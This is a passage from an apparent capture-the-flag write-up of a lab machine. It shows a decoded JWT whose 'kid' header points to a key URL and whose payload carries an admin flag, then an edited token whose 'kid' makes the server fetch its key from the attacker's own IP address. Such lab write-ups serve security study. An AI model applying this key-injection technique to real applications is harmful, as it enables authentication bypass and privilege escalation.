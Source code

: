 There were very few entry points, however, the application used **JWT to authenticate** users. Usually **bad implementation of JWT** allows **authentication bypass** or **application privilege escalation**, therefore it is always good to check them:

![Pasted image 20210522153124.png](../../zzz_res/attachments/Pasted_image_20210522153124.png)

Decoding the JWT using [jwt.io](https://jwt.io/) it came up that the **user privileges are contained inside the token** as well as the **path to the private key** used to validate it.

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}
{
  "username": "maoutis",
  "email": "maoutis@hackthebox.htb",
  "admin_cap": 0
}
```

Editing the *kid* field it was possible to **made the server contact a different target**:

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.24:7070/privKey.key"
}
```

